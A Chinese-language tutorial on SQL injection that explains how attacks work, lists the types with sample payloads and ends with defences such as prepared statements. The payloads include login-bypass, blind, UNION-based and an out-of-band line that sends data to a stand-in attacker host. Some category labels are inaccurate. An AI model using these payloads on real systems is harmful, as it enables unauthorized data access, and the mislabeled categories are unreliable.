 ### **SQL 注入攻擊技術**

SQL注入（SQL Injection）是一種常見的網絡攻擊技術，駭客通過將惡意的SQL語句插入到應用程序的查詢語句中，從而操控數據庫並獲取未經授權的數據。這種攻擊技術主要針對與用戶輸入交互的Web應用程序，尤其是那些對用戶輸入處理不當的系統。

SQL注入攻擊的主要目的是繞過身份驗證、篡改數據、提取敏感信息，甚至完全控制目標數據庫系統。這種攻擊可以發生在許多Web應用場景中，特別是用於處理用戶登錄、註冊、搜索等功能的SQL查詢。

---

#### **1. SQL 注入的工作原理**

SQL注入攻擊的基本過程包括以下步驟：

1. **識別可注入的輸入點**：
   - 攻擊者首先需要識別應用程序中的輸入點，這些輸入點通常出現在登錄頁面、搜索框、註冊表單等地方，這些地方可能將用戶的輸入直接拼接進SQL查詢語句中。

2. **構造惡意的SQL語句**：
   - 攻擊者利用對SQL語法的了解，將惡意SQL語句插入到正常的查詢中，從而操控查詢結果。例如，攻擊者可以插入`OR '1' = '1'`來總是讓查詢條件成立，從而繞過登錄驗證。

3. **執行惡意SQL語句**：
   - 當應用程序將用戶輸入的數據插入到SQL語句中執行時，這些惡意語句會被數據庫解釋並執行，從而達到攻擊的目的。

4. **獲取數據或控制系統**：
   - 成功的SQL注入攻擊可以讓攻擊者從數據庫中提取敏感數據（如用戶名、密碼、信用卡信息），或者修改數據庫中的數據，甚至完全控制目標數據庫系統。

---

#### **2. SQL 注入攻擊的類型**

SQL注入攻擊根據其攻擊方式和影響的範圍，通常分為以下幾類：

1. **基於錯誤的SQL注入（Error-based SQL Injection）**：
   - 攻擊者利用數據庫錯誤消息來進行注入攻擊。當數據庫返回錯誤信息時，攻擊者可以通過錯誤消息獲得數據庫的結構信息，從而進一步執行攻擊。
   - **例子**：在查詢中插入無效語法，觸發錯誤並從中提取結構信息。
   
   ```sql
   ' OR 1=1 --
   ```

2. **盲目SQL注入（Blind SQL Injection）**：
   - 當數據庫錯誤信息被禁用時，攻擊者無法直接看到錯誤信息，此時使用盲注技術來通過對結果的反應進行推測。盲注攻擊根據應用的行為變化來判斷SQL查詢是否成功執行。
   - 盲注可以分為兩種：
     - **布爾盲注**：通過向SQL查詢中插入布爾條件，判斷是否成立，根據應用頁面的響應來推斷結果。
     - **時間盲注**：通過在查詢中插入延遲命令（如`SLEEP`），根據響應時間的長短來推測數據庫的結構。
   
   **例子**：
   - 布爾盲注：
     ```sql
     ' AND 1=1 -- (正常顯示)
     ' AND 1=2 -- (不顯示或顯示錯誤)
     ```
   - 時間盲注：
     ```sql
     ' OR IF(1=1, SLEEP(5), 0) -- 延遲5秒
     ```

3. **聯合查詢SQL注入（Union-based SQL Injection）**：
   - 利用SQL的`UNION`操作符，攻擊者可以將多個SELECT查詢合併成一個查詢，從而在單個查詢中返回來自不同表格的數據。這種技術常用於提取敏感信息。
   
   **例子**：
   - 假設原始查詢是：
     ```sql
     SELECT name, email FROM users WHERE id = 'USER_INPUT';
     ```
   - 攻擊者可以用以下SQL語句插入：
     ```sql
     ' UNION SELECT username, password FROM admins --
     ```

4. **時間延遲SQL注入（Time-based SQL Injection）**：
   - 當應用沒有顯示錯誤信息時，攻擊者可以通過在SQL語句中引入延遲函數（如`SLEEP`）來進行攻擊。這樣，攻擊者可以根據網頁響應的延遲時間來判斷查詢是否成功，並逐步推測數據庫結構。

   **例子**：
   - 攻擊者可以使用以下SQL語句來測試：
     ```sql
     ' OR IF(1=1, SLEEP(5), 0) --
     ```

5. **第二階段SQL注入（Out-of-Band SQL Injection）**：
   - 這種攻擊利用數據庫能夠發送HTTP請求或DNS請求的特性，當攻擊者無法通過常規方式獲取信息時，可以通過這些請求來提取數據。
   
   **例子**：
   - 攻擊者使用DNS查詢來發送敏感信息：
     ```sql
     ' OR 1=1; SELECT load_file('\\\\attacker.com\\file.txt') --
     ```

---

#### **3. 防範SQL注入的方法**

1. **使用預編譯語句（Prepared Statements）**：
   - 這是防止SQL注入的最有效方法之一。通過使用預編譯語句，應用程序將查詢語句和用戶輸入分開處理，這樣可以確保用戶輸入不會被當作SQL語句執行。
   - 例如，在PHP中使用PDO（PHP Data Objects）實現預編譯語句：
     ```php
     $stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username');
     $stmt->execute(['username' => $username]);
     ```

2. **輸入驗證與過濾**：
   - 應用程序應該對所有用戶輸入進行驗證和過濾，特別是對可能包含SQL語句的特殊字符（如`'`、`"`、`;`、`--`等）進行過濾，或者僅允許特定格式的輸入。

3. **最小權限原則**：
   - 數據庫用戶應該僅授予必要的權限，避免賦予過多的權限，從而降低攻擊者能夠執行危險操作的風險。例如，應該避免用戶擁有`DROP`或`ALTER`等高危命令的權限。

4. **錯誤處理與信息隱藏**：
   - 不應該將數據庫錯誤信息直接顯示給用戶。這些錯誤信息可以幫助攻擊者瞭解數據庫的結構和存在的漏洞。應該捕捉並記錄錯誤，但對用戶顯示通用錯誤消息。

5. **Web應用防火牆（WAF）**：
   - 使用WAF可以檢測並過濾SQL注入等惡意請求，對潛在的攻擊進行阻擋。

---

#### **總結**

SQL注入攻擊是一種強大且危險的攻擊方式，它可以讓攻擊者竊取、篡改數據，甚至完全控制數據庫。了解SQL注入的工作原理和防範技術對於保護Web應用程序的安全至關重要。預編譯語句、輸入過濾、錯誤處理和最小權限原則等防範措施是防止SQL注入攻擊的有效手段。